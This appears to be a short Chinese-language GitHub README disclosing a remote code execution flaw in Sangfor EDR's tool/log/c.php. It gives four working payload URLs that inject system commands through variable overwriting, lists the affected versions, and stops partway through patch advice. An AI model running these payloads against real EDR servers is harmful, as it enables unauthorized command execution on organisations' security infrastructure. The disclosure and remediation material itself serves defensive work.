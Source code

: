 # sangforEdr

## 说明

tool\log\c.php文件的变量覆盖漏洞也是最早开始网传的深信服的RCE漏洞。。
https://xxx.xxx/tool/log/c.php?strip_slashes=system&host=id
原理就是典型的变量覆盖漏洞



## Payload

```
/tool/log/c.php?strip_slashes=system&host=id
/tool/log/c.php?strip_slashes=system&path=id
/tool/log/c.php?strip_slashes=system&row=id
/tool/log/c.php?strip_slashes=system&limit=id
```

## 影响范围

- 深信服 EDR v3.2.16
- 深信服 EDR v3.2.17
- 深信服 EDR v3.2.19

## 漏洞处置建议

深信服官方已经发布升级版本和补丁，更新至v3.2.21版本或升级补丁即可修复该问题并增强其他安全机制。
1、可以通过在线升级方式推送补丁包修复该漏洞，开启在线升级功能可自动修复该漏洞。
2、针对无法在线升级的用户，用户可通过以下链接下载升级安装包来完成EDR的升级工作：